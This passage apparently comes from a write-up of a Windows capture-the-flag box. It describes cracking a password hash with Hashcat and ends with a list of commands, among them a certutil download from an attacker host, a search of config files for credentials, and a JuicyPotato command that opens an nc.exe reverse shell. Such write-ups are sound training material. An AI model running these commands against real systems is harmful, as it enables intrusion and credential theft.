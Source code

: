 <img width="975" height="248" alt="image" src="https://github.com/user-attachments/assets/eadca69f-26b2-436d-b3c8-c3338488bbdc" /> <br>
- I discovered the user mentioned in the question had been disabled. I pulled the hash and used Hashcat to crack it, and obtained the cleartext password.<br>
<img width="801" height="342" alt="image" src="https://github.com/user-attachments/assets/2d13be7e-98ea-42a7-9a99-f2c57c761571" /> <br>
- **Bonus**: After finishing I suddenly realized (actually from reading Medium — I tend to read other people's write-ups after I finish a box to see if I can learn anything new and to see how they explain it), there is an easier privilege escalation method using Always Install Elevated settings. OK, you can practice that part yourselves.<br>
<img width="882" height="273" alt="image" src="https://github.com/user-attachments/assets/f1b7220b-6bce-4fa4-b8d9-d85a4d92f622" /> <br>

**Command using in these box:**
````
certutil.exe -urlcache -f http://IP:Port/Filename.ext c:\users\public\Filename.ext
Wmic qfe
Get-ChildItem [DirectorytoSearch] -Recurse -Include *.config,*.xml,*.ini,*.yml,*.json -ErrorAction SilentlyContinue | Select-String -Pattern "ldapadmin" -SimpleMatch -ErrorAction SilentlyContinue
Get-ChildItem C:\ -Recurse -Include [Filename]-ErrorAction Ignore
JuicyPotato.exe -t * -l 1337 -p cmd.exe -a "/c whoami" -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} // Test CSLID of Windows 2016
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Users\Public\nc.exe 10.10.15.92 7777 -e cmd.exe" -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}" // Command to call reverse shell
````

















